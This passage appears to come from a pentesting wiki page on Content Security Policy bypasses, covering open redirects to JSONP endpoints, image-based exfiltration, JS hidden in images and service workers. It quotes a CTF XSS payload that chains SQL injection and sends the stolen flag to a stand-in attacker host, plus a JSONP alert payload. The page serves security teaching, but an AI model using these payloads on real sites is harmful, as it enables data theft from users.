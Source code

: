 If CSP is set to `https://www.google.com/a/b/c/d`, since the path is considered, both `/test` and `/a/test` scripts will be blocked by CSP.

However, the final `http://localhost:5555/301` will be **redirected on the server-side to `https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(1)//`**. Since it is a redirection, the **path is not considered**, and the **script can be loaded**, thus bypassing the path restriction.

With this redirection, even if the path is specified completely, it will still be bypassed.

Therefore, the best solution is to ensure that the website does not have any open redirect vulnerabilities and that there are no domains that can be exploited in the CSP rules.

### Bypass CSP with dangling markup

Read [how here](../dangling-markup-html-scriptless-injection/).

### 'unsafe-inline'; img-src \*; via XSS

```
default-src 'self' 'unsafe-inline'; img-src *;
```

`'unsafe-inline'` means that you can execute any script inside the code (XSS can execute code) and `img-src *` means that you can use in the webpage any image from any resource.

You can bypass this CSP by exfiltrating the data via images (in this occasion the XSS abuses a CSRF where a page accessible by the bot contains an SQLi, and extract the flag via an image):

```javascript
<script>fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new Image().src='http://PLAYER_SERVER/?'+_)</script>
```

From: [https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)

You could also abuse this configuration to **load javascript code inserted inside an image**. If for example, the page allows loading images from Twitter. You could **craft** an **special image**, **upload** it to Twitter and abuse the "**unsafe-inline**" to **execute** a JS code (as a regular XSS) that will **load** the **image**, **extract** the **JS** from it and **execute** **it**: [https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/](https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/)

### With Service Workers

Service workers **`importScripts`** function isn't limited by CSP:

{% content-ref url="../xss-cross-site-scripting/abusing-service-workers.md" %}
[abusing-service-workers.md](../xss-cross-site-scripting/abusing-service-workers.md)
{% endcontent-ref %}

### Policy Injection

**Research:** [**https://portswigger.net/research/bypassing-csp-with-policy-injection**](https://portswigger.net/research/bypassing-csp-with-policy-injection)
